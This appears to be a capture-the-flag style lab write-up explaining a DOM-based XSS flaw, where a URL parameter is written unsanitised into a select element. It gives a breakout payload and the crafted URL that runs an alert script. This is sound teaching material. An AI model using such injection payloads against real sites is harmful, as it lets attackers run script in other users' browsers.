

# DOM XSS in document.write sink using source location.search inside a select element

```
❓

This lab contains a DOM-based cross-site scripting vulnerability in the stock checker functionality. It uses the JavaScript `document.write` function, which writes data out to the page. The `document.write` function is called with data from `location.search` which you can control using the website URL. The data is enclosed within a select element.

To solve this lab, perform a cross-site scripting attack that breaks out of the select element and calls the `alert` function.
```

Let’s begin with interacting with the site to get an understanding of it’s functionality and see where we can exploit any vulnerabilities. 


Heading over to one of the listings, we have a `Check stock` button, right clicking on it will take us to the section of the HTML where the button functionality is handled and right above it is the collapsed JavaScript that handles the stock check.




Let’s break down what’s going on in this script tag.

### **Original Code:**

```javascript
var stores = ["London", "Paris", "Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if (store) {
    document.write('<option selected>' + store + '</option>');
}
for (var i = 0; i < stores.length; i++) {
    if (stores[i] === store) {
        continue;
    }
    document.write('<option>' + stores[i] + '</option>');
}
document.write('</select>');

```

---

### **Code Breakdown**

### **1. Defining an Array of Store Names**

```javascript
var stores = ["London", "Paris", "Milan"];
```

- **What it does**:
  - Creates an array `stores` containing three predefined store names: `"London"`, `"Paris"`, and `"Milan"`.
- **Purpose**:
  - This list is used to populate a `<select>` dropdown with these store names as options.

---

### **2. Extracting the ****`storeId`**** Parameter from the URL**

```javascript
var store = (new URLSearchParams(window.location.search)).get('storeId');
```

- **What it does**:
  - Uses `window.location.search` to get the query string from the current URL.
  - The `URLSearchParams` object parses the query string and retrieves the value of the `storeId` parameter using `.get('storeId')`.
- **Example**:
  - For the URL `https://example.com/product?storeId=London`, `store` will be set to `"London"`.
  - If the URL has no `storeId` parameter, `store` will be `null`.

---

### **3. Writing the Opening ****`<select>`**** Tag**

```javascript
document.write('<select name="storeId">');
```

- **What it does**:
  - Dynamically injects an opening `<select>` tag into the page, starting a dropdown menu named `storeId`.

---

### **4. Adding a Selected Option if ****`store`**** is Present**

```javascript
if (store) {
    document.write('<option selected>' + store + '</option>');
}
```

- **What it does**:
  - Checks if a `storeId` parameter exists in the URL (i.e., if `store` is not `null`).
  - If it exists:
    - Creates an `<option>` element with the value of `store`.
    - Adds the `selected` attribute, making this option the default selection in the dropdown.
- **Example Output**:
  - If the URL contains `storeId=London`, this writes:
    ```html
    <option selected>London</option>
    ```

---

### **5. Iterating Through the Predefined Stores**

```javascript
for (var i = 0; i < stores.length; i++) {
    if (stores[i] === store) {
        continue;
    }
    document.write('<option>' + stores[i] + '</option>');
}
```

- **What it does**:
  - Loops through each store in the `stores` array.
  - If the current store matches the `store` parameter (already added as the selected option), it skips the current iteration (`continue`).
  - Otherwise, it writes the current store as a new `<option>` in the dropdown.
- **Purpose**:
  - Ensures that the selected store is not duplicated in the dropdown.

---

### **6. Writing the Closing ****`</select>`**** Tag**

```javascript
document.write('</select>');
```

- **What it does**:
  - Closes the `<select>` dropdown tag.
- **Final Output Example**:
  - For `storeId=London` in the URL, the resulting HTML might look like this:
    ```html
    <select name="storeId">
      <option selected>London</option>
      <option>Paris</option>
      <option>Milan</option>
    </select>
    ```

---

### **How This Script Works in the Browser**

1. **Dynamically Generates a Dropdown**:
   - Based on the predefined `stores` array and the `storeId` parameter in the URL.
2. **Reflects User Input**:
   - If a `storeId` is provided in the URL, it’s displayed as the selected option in the dropdown.
3. **Unsafe Reflection**:
   - The `storeId` parameter is directly inserted into the HTML using `document.write` without sanitization, making it vulnerable to **DOM-based XSS**.

---

To exploit this **DOM-based XSS** vulnerability in the `stock checker` functionality, you need to break out of the `<select>` element and inject a `<script>` tag that triggers `alert()`. But first let’s breakdown the code that handles the stock items. Here's how you can achieve it step-by-step:

---

### **Vulnerability Analysis**

1. **The Issue**:
   - The JavaScript uses `document.write` to dynamically inject HTML into the DOM.
   - It retrieves data from `location.search`, which is user-controlled.
   - The data is directly written inside the `<select>` element without sanitization or encoding.
2. **Key Injection Point**:
   - The `storeId` parameter in the URL query string is reflected in the `<option>` tag, allowing us to break out of the tag and inject arbitrary HTML/JavaScript.
3. **Goal**:
   - Inject a payload that:
     - Closes the current `<option>` tag.
     - Injects a `<script>` tag to execute `alert('XSS')`.

---

### **Injection Payload**

The payload needs to:

1. Break out of the `<option>` context.
2. Insert a `<script>` tag that executes the `alert()` function.

### **Payload**:

```html
"></select><script>alert('XSS')</script><select name="storeId">

```

---

### **How It Works**

1. The payload starts with `">`:
   - Closes the current `<option>` tag.
2. Then `</select>`:
   - Closes the `<select>` element.
3. Next `<script>alert('XSS')</script>`:
   - Injects and executes the malicious script.
4. Finally `<select name="storeId">`:
   - Reopens the `<select>` element to ensure valid HTML structure.

---

### **Modified URL**

The payload is injected via the `storeId` parameter in the URL query string. Here’s how the URL would look:

```txt
https://LAB_URL_ID.web-security-academy.net/product?productId=1&storeId="></select><script>alert('XSS')</script><select name="storeId">

```

---

### **Resulting HTML**

After injecting the payload, the rendered HTML would look like this:

```html
<select name="storeId">
  <option selected=""></option>
</select>
<script>alert('XSS')</script>
<select name="storeId">
  <option>London</option>
  <option>Paris</option>
  <option>Milan</option>
</select>

```

When the browser renders this HTML:

- The `<script>` tag executes, triggering the `alert('XSS')`.

---
